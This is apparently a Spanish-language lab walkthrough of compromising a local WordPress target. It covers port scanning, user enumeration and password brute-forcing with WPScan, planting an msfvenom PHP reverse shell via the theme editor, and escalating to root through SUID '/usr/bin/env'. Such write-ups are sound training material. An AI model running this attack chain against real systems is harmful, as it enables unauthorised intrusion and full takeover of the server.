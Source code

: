 
Hacemos un primer scaneo para ver que servicios y puertos están levantados
`nmap -p- --open -sSCV  --min-rate 5000 -n -Pn 172.17.0.2 -oN ScanPorts.txt`

Vemos que esta levantado el puerto `80` navegamos a el vía web.
Accedemos y vemos una pagina básica de apache, vamos ha hacer Fuzing usando [[DIRBUSTER]] y [[GOBUSTER]].

Ya solo con [[DIRBUSTER]] hemos descubierto que es un WORDPRESS
Sabemos que WORDPRESS tienen una pagina de login llamada `wp-login.php` navegaremos a ella, y probamos con el usuario admin y contraseña admin.

Como no son admin admin las credenciales usamos [[WPSCAN]] para hacer una búsqueda de usuarios.
`wpscan --url http://172.17.0.2/wordpress --enumerate u`

Nos muestra que hay un usuario llamado Mario, aremos fuerza bruta para descubrí la contraseña con [[WPSCAN]]
`wpscan --url http://172.17.0.2/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames Mario`

Nos muestra que el usuario es Mario y la contraseña Love
En apariencce theme editor cargaremos el código de un archivo .php generado con [[MSFVENOM]]
`msfvenom -p php/reverse_php LHOST=192.168.1.28 LPORT=443 -f raw > pawned.php`

Una vez hemos copiado el archivo navegamos a su ruta por la URL y nos ponemos en escucha con [[NETCAT]] una vez tenemos establecida la conexión la aseguramos y la tratamos para no perderla.
[[01. Tratamiento de la TTY]]

Una vez tenemos la conexión estable empezamos con la escalada de privilegios con el comando `sudo -l` como no nos da resultado usaremos la segunda opción `find / -perm -4000 2>/dev/null` vemos que se puede ejecutar `/usr/bin/env` así que navegamos a GTFobins y buscamos la explotación para ejecutarla.
`env /bin/sh -p`

Habremos hecho la escalada de privilegios y seremos el usuario root.